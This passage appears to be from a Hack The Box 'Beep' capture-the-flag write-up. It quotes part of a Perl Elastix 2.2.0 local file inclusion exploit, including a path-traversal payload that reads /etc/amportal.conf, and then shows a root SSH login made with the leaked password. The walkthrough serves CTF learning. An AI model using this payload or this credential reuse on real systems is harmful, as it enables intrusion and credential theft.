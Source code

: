 The first few results are Cross Site Scripting, which won't help us here, the 4th I took a look at:

	msf5 exploit(multi/http/vtiger_soap_upload) > searchsploit -p 37637
	[*] exec: searchsploit -p 37637
	
	  Exploit: Elastix 2.2.0 - 'graph.php' Local File Inclusion
	      URL: https://www.exploit-db.com/exploits/37637
	     Path: /usr/share/exploitdb/exploits/php/webapps/37637.pl
	File Type: ASCII text, with CRLF line terminators

Here is a snippet of the code:

	print "\t Elastix 2.2.0 LFI Exploit \n";
	print "\t code author cheki   \n";
	print "\t 0day Elastix 2.2.0  \n";
	print "\t email: anonymous17hacker{}gmail.com \n";
	
	#LFI Exploit: /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
	
	use LWP::UserAgent;
	print "\n Target: https://ip ";
	chomp(my $target=<STDIN>);
	$dir="vtigercrm";
	$poc="current_language";
	$etc="etc";
	$jump="../../../../../../../..//";
	$test="amportal.conf%00";

I tried loading the path in the code in a browser and found what's in the screenshot below. The word password shows up quite a bit, along with what looks like a password.

<img src="https://raw.githubusercontent.com/chadpierce/htb/master/beep/passwords-galore.png" alt="passwords galore" width="600"/>

## I'm In

I tried the password on a few of the web logins, and then on the console. It actually worked with root and I got a shell.

	$ ssh root@beep
	root@beep's password: 
	 
	Last login: Sun Oct 20 19:21:30 2019 from 10.10.x.x
	
	Welcome to Elastix 
	----------------------------------------------------
	
	To access your Elastix System, using a separate workstation (PC/MAC/Linux)
	Open the Internet Browser using the following URL:
	http://10.10.10.7
	
	[root@beep ~]# 

The user and root flags were in the expected places. 

## Endnotes
